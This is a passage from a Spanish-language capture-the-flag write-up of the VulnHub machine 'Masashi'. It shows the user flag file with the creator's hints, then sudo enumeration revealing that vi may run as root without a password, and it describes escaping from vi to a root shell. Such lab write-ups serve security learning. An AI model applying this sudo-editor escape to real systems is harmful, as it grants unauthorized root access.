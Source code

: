 La flag la encontramos en el directorio personal de `sv5`

```bash
sv5@masashi:~$ cat /home/sv5/user.txt 
Hey buddy :)

Well done on that initial foothold ;) ;)

Key Takeaways:
* Do not always believe what the tool tells you, be the "Doubting Thomas" sometimes and look for
  yourself, e.g 1 disallowed entry in robots.txt wasn't really true was it? hehehehe
* It's not always about TCP all the time..... UDP is there for a reason and is just as important a
  protocol as is TCP......
* Lastly, there is always an alternative to everything i.e the ssh part.


***** Congrats Pwner ******
Now on to the privesc now ;)



##Creator: Donald Munengiwa
##Twitter: @lorde_zw
```
### Escalada de Privilegios (Masashi)

* * *

Iniciamos la enumeración listando grupos y privilegios de sudo del usuario `sv5`

```bash
sv5@masashi:~$ id
uid=1000(sv5) gid=1000(sv5) groups=1000(sv5),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
sv5@masashi:~$ sudo -l
Matching Defaults entries for sv5 on masashi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sv5 may run the following commands on masashi:
    (ALL) NOPASSWD: /usr/bin/vi /tmp/*
```
Nos percatamos que podemos ejecutar el editor `vi` como sudo. Con vim tenemos la opción de setear una variable y luego llamarla y como esto lo hacemos en el contexto de root por haber abierto la shell con sudo entonces ganamos acceso a una shell con privilegios de root. La flag la encontramos en el directorio de `/root`

<img src="/assets/VH/Inferno-Mashashi/setshell.png">